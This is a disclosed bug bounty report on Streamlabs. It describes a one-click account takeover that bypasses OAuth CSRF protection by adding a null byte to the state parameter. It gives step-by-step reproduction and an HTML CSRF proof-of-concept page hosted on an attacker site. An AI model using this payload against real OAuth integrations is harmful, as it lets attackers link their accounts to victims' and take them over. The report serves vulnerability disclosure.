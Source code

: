 # One Click Account takeover using Ouath CSRF bypass by adding Null byte %00 in state parameter on  www.streamlabs.com

## Report Details
- **Report ID**: 1046630
- **URL**: https://hackerone.com/reports/1046630
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-29T19:03:34.859Z
- **Disclosed**: 2021-01-06T15:15:53.288Z

## Reporter
- **Username**: surajbhosale
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: logitech

## Vulnerability Information
**Summary**

Hello Team

I have found a bypass to the this report. #1039749 

**Steps To Reproduce:**

1. Login to attacker's account and go to settings --> account settings.

2. Intercept the request in burp suite and click on merge twitch account.

3. Allow twitch access and once you see a get request in burp with host streamlabs.com and parameters code, scope and state then generate CSRF PoC 
      from burp suite and drop that request. (We dropped this request in order not to consume the code as it can be used only once)

4. Add null byte character in state parameter and host that CSRF PoC on attacker.com and ask victim to visit attacker.com

5. Once victim visits attacker.com attacker's twitch account will be connected to victim's account.

6. Now attacker will login to victim's streamlabs.com using his twitch account.

**PoC:**

Login to your streamlabs account and Visit the the  link: https://pawned.trueindian1.repl.co and click on the button.

```
<html>
<head>
<style>
h1 {text-align: center;}
p {text-align: center;}
div {text-align: center;}
</style>
</head>
<body>
<h1>One Click Account Takeover PoC By C0nquer0rs</h1>
<p>Click the button to go to the Streamlabs and check you're account settings.</p>
<h1><button onclick="document.location='https://streamlabs.com/auth?code=e5p67p5r6vjizvpl2fj756625zv8ra&scope=user_read&state=b33a75be1737978b4c5ea22f7bf53078c86256db-merge%00'">Click Me</button><h1>
</body>
</html>
```

## Impact

Attacker can connect his Facebook, you tube, twitch, Mixer, Periscope, Picarto, PayPal with anybody account who visits attacker's website and can easily takeover Victim's streamlabs account.

## Attachments
No attachments
